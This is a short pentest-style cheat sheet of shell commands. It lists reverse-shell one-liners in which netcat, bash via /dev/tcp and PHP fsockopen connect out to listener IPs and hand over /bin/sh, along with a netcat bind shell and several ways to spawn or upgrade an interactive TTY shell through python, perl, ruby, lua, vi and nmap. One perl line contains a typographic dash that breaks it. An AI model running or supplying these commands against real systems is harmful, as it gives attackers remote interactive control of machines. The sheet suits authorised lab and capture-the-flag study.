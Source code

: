 # Shells

## Reverse shell

| tool           | local                 |      | remote                         |
|----------------|-----------------------|------|--------------------------------|
| netcat         | nc -lvp 4444          |  <-  | nc 192.168.1.1 4444 -e /bin/sh |
| netcat <br> bash | nc -lvp 4444          |  <-  | bash -i >& /dev/tcp/10.0.0.1/4444 0>&1 |
| netcat <br> php  | nc -lvp 4444          | <-   | php -r '$sock=fsockopen("10.10.14.176",4444);exec("/bin/sh -i <&3 >&3 2>&3");' |

## Bind shell

| tool   | local                 |      | remote                         |
|--------|-----------------------|------|--------------------------------|
| netcat | nc 192.168.1.2 4444   |  ->  | nc -lvp 4444 -e /bin/sh        |

## Spawning a TTY Shell

```
python -c 'import pty; pty.spawn("/bin/sh")'
```

```
echo os.system('/bin/bash')
```

```
/bin/sh -i
```

```
perl —e 'exec "/bin/sh";'
```

```
perl: exec "/bin/sh";
```

```
ruby: exec "/bin/sh"
```

```
lua: os.execute('/bin/sh')
```
```
(From within IRB)
exec "/bin/sh"
```

```
(From within vi)
:!bash
```

```
(From within vi)
:set shell=/bin/bash:shell
```

```
(From within nmap)
!sh
```
